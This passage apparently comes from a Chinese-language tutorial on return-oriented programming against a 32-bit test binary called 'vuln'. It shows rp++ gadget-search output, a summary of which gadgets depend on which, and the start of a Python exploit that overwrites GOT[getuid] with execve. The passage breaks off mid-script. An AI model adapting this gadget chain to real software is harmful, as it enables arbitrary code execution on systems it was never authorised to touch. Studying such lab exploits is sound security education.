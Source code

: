 ```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 5
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
183 found.

A total of 183 gadgets found.
...
0x080485ca: les (%ebx,%ebx,2), %ebx ; popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048498: movb $0x00000001, 0x0804A028 ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
0x0804849b: movb 0x83010804, %al ; les (%ebx,%ebx,2), %eax ; popl %ebp ; ret ; (1 found)
...
$
```

现在我们完成了零件的搜索。让我们开始游戏吧！

## 零件搜索总结

*   为了零件 1 的成功调用，我们需要零件 2 和 3。
*   由于零件 3 不存在，我们执行手动搜索，并找到了零件 4、5、6 和 7。
*   为了零件 4 的成功调用，我们需要零件 5、6 和 7。

## 利用代码

下面的利用代码使用`execve`函数地址覆盖了`GOT[getuid]`：

```
#!/usr/bin/env python
import struct
from subprocess import call

'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''

g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18 #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530

#endianess convertion
def conv(num):
```